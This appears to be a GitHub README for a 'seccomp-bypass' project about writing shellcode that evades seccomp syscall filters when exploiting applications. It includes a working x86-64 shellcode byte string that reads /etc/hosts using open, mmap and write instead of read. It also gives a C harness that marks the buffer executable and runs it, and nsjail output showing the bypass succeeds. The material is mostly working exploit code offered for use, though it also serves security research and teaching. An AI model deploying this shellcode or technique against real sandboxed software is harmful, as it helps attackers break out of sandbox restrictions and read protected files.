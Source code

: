 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. So you need shellcode that will carry out its purpose while still adhering to the seccomp filter in place. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. The code below is a generated application, contrived purely to run some shellcode. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s 
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
 *Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform action the section as specified. Each section has a list of means to carry out that action using a variety of system call combinations. To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.

## Read a file from the filesystem
### Syscalls used: `open`,`close`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s` that reads a target's `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`close`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $HOME/seccomp-bypass/read-with-mmap
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Uid map: inside_uid:360840 outside_uid:360840
[2017-05-12T16:48:04-0700] Gid map: inside_gid:5000 outside_gid:5000
[2017-05-12T16:48:04-0700] Executing '/home/unixist/seccomp-bypass/read-with-mmap' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls used: `open`, `sendfile`
coming soon
